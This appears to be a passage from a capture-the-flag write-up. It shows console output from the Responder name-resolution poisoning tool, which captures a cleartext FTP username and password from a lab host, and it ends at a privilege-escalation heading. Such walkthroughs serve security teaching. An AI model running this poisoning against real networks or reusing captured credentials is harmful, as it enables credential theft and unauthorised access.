                NBT-NS, LLMNR & MDNS Responder 3.0.0.0

      Author: Laurent Gaffie (laurent.gaffie@gmail.com)
      To kill this script hit CTRL-C


    [+] Poisoners:
        LLMNR                      [ON]
        NBT-NS                     [ON]
        DNS/MDNS                   [ON]

    [+] Servers:
        HTTP server                [ON]
        HTTPS server               [ON]
        WPAD proxy                 [OFF]
        Auth proxy                 [OFF]
        SMB server                 [ON]
        Kerberos server            [ON]
        SQL server                 [ON]
        FTP server                 [ON]
        IMAP server                [ON]
        POP3 server                [ON]
        SMTP server                [ON]
        DNS server                 [ON]
        LDAP server                [ON]
        RDP server                 [ON]

    [+] HTTP Options:
        Always serving EXE         [OFF]
        Serving EXE                [OFF]
        Serving HTML               [OFF]
        Upstream Proxy             [OFF]

    [+] Poisoning Options:
        Analyze Mode               [OFF]
        Force WPAD auth            [OFF]
        Force Basic Auth           [OFF]
        Force LM downgrade         [OFF]
        Fingerprint hosts          [OFF]

    [+] Generic Options:
        Responder NIC              [tun0]
        Responder IP               [10.10.14.24]
        Challenge set              [random]
        Don't Respond To Names     ['ISATAP']



    [+] Listening for events...
    [FTP] Cleartext Client   : 10.10.10.183
    [FTP] Cleartext Username : chiv
    [FTP] Cleartext Password : N0bodyL1kesBack/



## Priv: chiv --\> pain
